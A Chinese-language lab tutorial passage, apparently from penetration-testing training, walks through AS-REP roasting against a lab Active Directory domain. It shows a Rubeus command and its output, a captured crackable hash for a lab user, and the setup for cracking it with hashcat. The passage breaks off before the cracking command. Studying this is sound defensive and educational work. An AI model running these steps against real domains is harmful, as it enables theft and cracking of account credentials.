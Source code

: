 ## 攻击描述

`AS-REProasting` 攻击与 `Kerberoasting` 攻击类似；我们可以获得启用了属性 `Do not require Kerberos preauthentication` 的用户帐户的可破解哈希值。这种攻击的成功取决于我们要破解的用户帐户密码的强度。

## 攻击路径
为了获得可破解的哈希值，我们可以再次使用 `Rubeus` 。不过，这一次，我们将使用 `asreproast` 操作。如果我们不指定名称， `Rubeus` 将为每个不需要 `Kerberos preauthentication` 的用户提取哈希值：

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```

一旦 `Rubeus` 获得用户 Anni 的哈希值（Playground 环境中唯一不需要预身份验证的用户），我们将把输出文本文件移动到 Linux 攻击机器。为了使 `hashcat` 能够识别哈希值，我们需要在 `$krb5asrep$` 之后添加 `23$` 来编辑它：

```shell
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

现在，我们可以将 `hashcat` 与哈希模式（选项 -m） `18200` 一起使用来实现 `AS-REPRoastable` 哈希。我们还传递一个带有密码的字典文件（文件 `passwords.txt` ），并将任何成功破解的票据的输出保存到文件 `asrepcracked.txt` ：
